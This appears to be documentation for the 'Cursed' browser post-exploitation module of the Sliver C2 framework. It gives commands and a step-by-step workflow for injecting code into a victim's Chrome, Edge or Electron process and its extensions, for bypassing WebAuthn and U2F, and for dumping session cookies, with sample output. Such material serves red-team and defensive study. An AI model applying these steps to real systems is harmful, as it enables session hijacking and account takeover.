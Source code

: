 Cursed is a Chrome/Chromium/Edge/Electron post-exploitation tool kit introduced in Sliver v1.5.25, which integrates with [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) (originally [Sliver Overlord](https://github.com/StarkZarn/glod-overlord)). It can automatically find existing Chrome Extensions with the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) and remotely inject it onto the target system, or you can start an interactive REPL to inject arbitrary code into any Chrome/Chromium/Edge/Electron context.

Since web requests and other activity originate from the target machine/browser instance, Cursed Chrome and the Cursed tool kit are excellent options for bypassing U2F/Webauthn, hardware attestation, and geo-IP restrictions in web applications.

## Cursed Chrome

The `cursed chrome` command can be used to restart a remote system's Chrome browser with remote debugging enabled. If no payload is specified using `--payload` the command will simply restart Chrome with remote debugging enabled, you can then use `cursed console` to interact with any debug target.

If a payload is specified, the command will restart Chrome with remote debugging, enumerate installed browser extensions, determine if any extension has the required permissions for [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome), and inject the payload into the extension's execution context.

So a typical workflow looks like:

1. Setup [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome)
2. Pop Sliver session, or go interactive from a beacon
3. `cursed chrome --payload background.js`
4. Upstream browser to CursedChrome proxy
5. Enjoy!

## Cursed Edge

Works identically to `cursed chrome` but the UI displays "Edge" instead of "Chrome" much like Edge itself.

## Cursed Electron

The `cursed electron` command can be used to restart an Electron application with remote debugging enabled, you can subsequently use `cursed console` to interact with any debug target. Note that some Electron applications disable the remote debugging functionality, which will prevent this feature from working.

## Cursed Console

The `cursed console` command can be used to start an interactive REPL with any cursed process. You will need to start a cursed process using `cursed chrome`, `cursed edge`, or `cursed electron` before using `cursed console`. You can list cursed processes using the `cursed` command. ![cursed](/images/cursed-1.png)

## Cursed Cookies

Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:

```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
